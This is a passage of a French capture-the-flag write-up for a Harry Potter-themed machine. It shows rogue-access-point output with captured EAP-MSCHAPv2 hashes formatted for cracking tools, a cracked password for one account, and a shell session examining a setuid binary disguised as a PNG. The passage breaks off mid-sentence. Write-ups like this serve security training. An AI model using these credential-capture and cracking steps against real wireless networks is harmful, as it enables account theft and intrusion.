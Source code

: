 ```
MANA EAP EAP-MSCHAPV2 JTR | albus.dumbledore:$NETNTLM$596bb263ee646101$4cba18f188855e8e5b9f20b045a4f8c9a9d1f63330dd4d2c:::::::
MANA EAP EAP-MSCHAPV2 HASHCAT | albus.dumbledore::::4cba18f188855e8e5b9f20b045a4f8c9a9d1f63330dd4d2c:596bb263ee646101
EAP-MSCHAPV2: Derived Master Key - hexdump(len=16): 43 ff 5a 4c 38 dd e6 a9 0f 47 dd 0f ce 21 68 cf

MANA EAP Identity Phase 1: Hogwarts\minerva.mcgonagall
MANA EAP EAP-MSCHAPV2 ASLEAP user=minerva.mcgonagall | asleap -C 57:b4:c0:6e:76:fd:fb:15 -R ff:bd:12:99:c5:bb:aa:43:33:ec:34:e8:7e:1d:d5:3e:7d:db:47:9c:70:e9:a5:ff
MANA EAP EAP-MSCHAPV2 JTR | minerva.mcgonagall:$NETNTLM$57b4c06e76fdfb15$ffbd1299c5bbaa4333ec34e87e1dd53e7ddb479c70e9a5ff:::::::
MANA EAP EAP-MSCHAPV2 HASHCAT | minerva.mcgonagall::::ffbd1299c5bbaa4333ec34e87e1dd53e7ddb479c70e9a5ff:57b4c06e76fdfb15
EAP-MSCHAPV2: Derived Master Key - hexdump(len=16): 52 fe f2 82 7a 62 53 33 3a fb fe f4 df de db 52

MANA EAP Identity Phase 1: Hogwarts\tom.riddle
MANA EAP EAP-MSCHAPV2 ASLEAP user=tom.riddle | asleap -C 2a:93:09:09:97:af:ab:33 -R d8:04:58:4e:71:03:9d:92:8a:5e:b5:de:8f:54:5e:21:fb:24:29:b3:40:63:6a:dd
MANA EAP EAP-MSCHAPV2 JTR | tom.riddle:$NETNTLM$2a93090997afab33$d804584e71039d928a5eb5de8f545e21fb2429b340636add:::::::
MANA EAP EAP-MSCHAPV2 HASHCAT | tom.riddle::::d804584e71039d928a5eb5de8f545e21fb2429b340636add:2a93090997afab33
EAP-MSCHAPV2: Derived Master Key - hexdump(len=16): a7 9d 8e 20 65 18 bf 0d 67 9f 72 39 55 4f 24 b6
```

Ils sont rapides à brute-forcer, mais un seul est tombé :

`blackhogwarts     (tom.riddle)`

### Alohomora

On revient à cette histoire de Horcrux :

```console
tom.riddle@MagiFi:~$ ls -alh
total 44K
drwxr-xr-x 3 tom.riddle tom.riddle 4.0K Feb  4 09:57 .
drwxr-xr-x 7 root       root       4.0K Sep 27  2024 ..
lrwxrwxrwx 1 root       root          9 Sep 27  2024 .bash_history -> /dev/null
-rw-r--r-- 1 tom.riddle tom.riddle  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 tom.riddle tom.riddle 3.7K Feb 25  2020 .bashrc
drwx------ 2 tom.riddle tom.riddle 4.0K Feb  4 09:57 .cache
-rwsr-x--x 1 root       tom.riddle  17K May 14 16:57 .horcrux.png
-rw-r--r-- 1 tom.riddle tom.riddle  807 Feb 25  2020 .profile
tom.riddle@MagiFi:~$ file .horcrux.png 
.horcrux.png: setuid data
tom.riddle@MagiFi:~$ hexdump -C -n 32 .horcrux.png
00000000  89 50 4e 47 02 01 01 00  00 00 00 00 00 00 00 00  |.PNG............|
00000010  03 00 3e 00 01 00 00 00  a0 11 00 00 00 00 00 00  |..>.............|
00000020
```

Ce dernier étant bien une image, on s'oriente vers le binaire croisé plus tôt :
